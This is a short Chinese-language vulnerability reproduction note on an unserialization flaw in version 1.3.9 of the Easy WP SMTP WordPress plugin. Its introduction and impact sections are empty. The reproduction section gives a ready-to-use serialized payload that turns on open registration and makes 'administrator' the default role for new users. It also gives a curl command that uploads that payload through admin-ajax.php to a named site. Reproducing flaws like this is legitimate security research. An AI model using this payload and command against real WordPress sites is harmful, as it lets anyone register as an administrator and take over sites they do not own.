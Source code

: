 WordPress Plugin - Easy WP SMTP 反序列化漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP
SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp\_import\_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users\_can\_register）并将用户默认角色（default\_role）设置为数据库中的"管理员"。

1.创建一个文件名" /tmp/upload.txt"，并添加以下内容：

    a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2.上传文件

    $ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

![](resource/WordPressPlugin-EasyWPSMTP反序列化漏洞/media/rId24.shtml)

